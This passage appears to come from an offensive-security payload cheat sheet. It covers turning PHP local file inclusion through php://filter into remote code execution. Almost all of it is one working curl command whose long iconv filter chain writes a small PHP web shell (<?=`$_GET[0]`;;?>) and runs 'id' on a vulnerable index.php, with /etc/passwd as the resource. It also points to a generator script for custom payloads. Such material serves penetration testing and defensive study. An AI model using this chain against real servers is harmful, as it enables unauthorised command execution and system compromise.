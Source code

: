 Also there is a way to turn the `php://filter` into a full RCE. Use [LFI2RCE.py](./LFI2RCE.py) to generate a custom payload.

```powershell
# vulnerable file: index.php
# vulnerable parameter: file
# executed command: id
# executed PHP code: <?=`$_GET[0]`;;?>
curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"
```
